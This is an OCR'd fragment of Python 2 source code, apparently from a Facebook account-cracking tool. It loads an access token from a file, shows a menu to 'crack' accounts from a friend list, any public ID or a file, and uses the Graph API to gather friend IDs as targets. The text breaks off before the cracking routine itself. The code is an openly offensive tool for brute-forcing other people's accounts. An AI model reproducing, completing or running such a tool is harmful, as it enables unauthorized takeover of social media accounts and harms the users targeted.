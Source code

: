 	os.system('clear')

	try:

		toket=open('login.txt','r').read()

	except IOError:

		print"\033[1;96m \x1b[1;91mToken invalid"

		os.system('rm -rf login.txt')

		time.sleep(1)

		login()

	os.system('clear')

	print logo

	print 42*"\033[1;96m="

	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"

	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"

	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"

	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"

	pilih_super()

def pilih_super():

	peak = raw_input("\n\033[1;97m >>> \033[1;97m")

	if peak =="":

		print "\033[1;96m \x1b[1;91mFill in correctly"

		pilih_super()

	elif peak =="1":

		os.system('clear')

		print logo

		print 42*"\033[1;96m="

		jalan('\033[1;96m \033[1;93mGetting ID \033[1;97m...')

		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)

		z = json.loads(r.text)

		for s in z['data']:

			id.append(s['id'])

	elif peak =="2":

		os.system('clear')

		print logo
